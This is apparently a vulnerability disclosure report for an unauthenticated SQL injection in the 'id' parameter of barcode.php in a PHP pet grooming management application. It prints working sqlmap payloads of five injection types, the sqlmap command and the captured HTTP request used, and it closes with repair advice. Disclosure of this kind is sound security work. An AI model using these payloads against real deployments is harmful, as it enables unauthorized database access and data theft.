 # Pet grooming management barcode.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Chenguang Wang-GuangZhou University

## VERSION(S)

- V1.0

## Software Link

- https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'barcode.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "barcode.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- error-based
- stacked queries
- UNION query

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=1' AND 6506=(SELECT (CASE WHEN (6506=6506) THEN 6506 ELSE (SELECT 1008 UNION SELECT 6846) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x716a6b6271,(SELECT (ELT(9029=9029,1))),0x716b717171),9029)-- adDh
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 2212 FROM (SELECT(SLEEP(5)))Zamk)-- mrOD
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 21 columns
    Payload: id=-1070' UNION ALL SELECT CONCAT(0x716a6b6271,0x67766b62736446454b7548736b786f6d4f6545576c42444c4e465477786f41686975684156534b63,0x716b717171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT [QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```

![image-20250902111408359](img/image-20250902111408359.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python3 sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /admin/barcode.php HTTP/1.1
Host: 192.168.31.222:8883
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: UserName=test1; PassWord=16d7a4fca7442dda3ad93c9a726597e4; Bus_Booking_System=bq1kveujc3osm8re7oiikt4hhj; columns-customers_view={%22customers-fullname%22:true%2C%22customers-phone%22:true%2C%22customers-id_number%22:true}; PHPSESSID=p1oiu687ec8r1n6qnj58qo4850
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

id=1*
```

# Attack results

![image-20250902111434101](img/image-20250902111434101.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
